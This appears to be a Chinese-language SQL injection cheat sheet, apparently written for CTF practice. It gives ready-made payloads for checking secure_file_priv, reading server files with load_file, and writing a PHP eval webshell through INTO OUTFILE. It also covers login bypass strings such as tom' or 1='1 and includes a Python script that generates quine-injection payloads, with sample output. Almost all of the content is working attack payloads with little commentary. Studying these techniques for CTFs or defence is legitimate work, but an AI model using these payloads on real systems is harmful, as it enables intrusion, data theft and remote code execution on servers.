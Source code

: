 ```
secure_file_priv变量用于确定从何处读取/写入文件。空值允许我们从整个文件系统读取文件。否则，如果设置了某个目录，我们只能从变量指定的文件夹中读取

cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```


sql注入进行文件读写

#### 读：
```
union select 1,load_file("\var\www\html\flag")
```

#### 写：
```
union select 1,"<?php @eval($_POST['shell']);?>",3 into outfile '\var\www\html\flag'
```

## 身份验证绕过

```
payload为：

tom' or 1='1
tom' or 1=2#

Executing query: SELECT * FROM logins WHERE username='tom' AND password = '123';

Executing query: SELECT * FROM logins WHERE username='tom' or 1=2#' AND password = '123';

先执行AND，在执行or
```

## Quine注入

使输入的`sql`语句和输出的`sql`语句一致

```
# quine 生成脚本
def quine(data, debug=True):
    if debug: print(data)
    data = data.replace('!!',"REPLACE(REPLACE(!!,CHAR(34),CHAR(39)),CHAR(33),!!)")
    blob = data.replace('!!','"!"').replace("'",'"')
    data = data.replace('!!',"'"+blob+"'")
    if debug: print(data)
    return data
"""
!!填充的东西执行完之后和data一样
"""
data="'/**/union/**/select(!!)#"
quine(data)

password=1'/**/union/**/select(REPLACE(REPLACE('"/**/union/**/select(REPLACE(REPLACE("!",CHAR(34),CHAR(39)),CHAR(33),"!"))#',CHAR(34),CHAR(39)),CHAR(33),'"/**/union/**/select(REPLACE(REPLACE("!",CHAR(34),CHAR(39)),CHAR(33),"!"))#'))#
```

https://ph0ebus.cn/post/SQL%E6%B3%A8%E5%85%A5%E4%B9%8BQuine%E6%B3%A8%E5%85%A5.html
